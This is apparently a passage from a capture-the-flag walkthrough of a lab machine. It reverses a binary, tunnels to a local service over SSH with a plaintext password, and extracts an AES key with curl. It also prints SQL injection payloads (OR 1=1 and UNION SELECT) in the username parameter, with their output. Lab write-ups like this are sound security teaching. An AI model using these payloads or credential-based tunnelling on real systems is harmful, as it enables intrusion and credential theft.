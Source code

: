 open in ghidra, This bianry connecting to local server on port 1234 and retriving admin user password.

![](screenshots/elf-ghidra.png)

If we check the netstat on windows, there is a port 1234 
```bash
TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING
```

Forwarding port with ssh and sending same request with curl gives the admin password
```bash
❯ sshpass -p 'fN3)sN5Ee@g' ssh development@breadcrumbs.htb -N -L 1234:127.0.0.1:1234 -f
❯ curl 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Got the aes key: `k19D193j.<19391(`

Found sql injection in "username" parameter.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+OR+1=1+--+-&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Testing union injection.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+1--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(1) "1"
  }
}
```
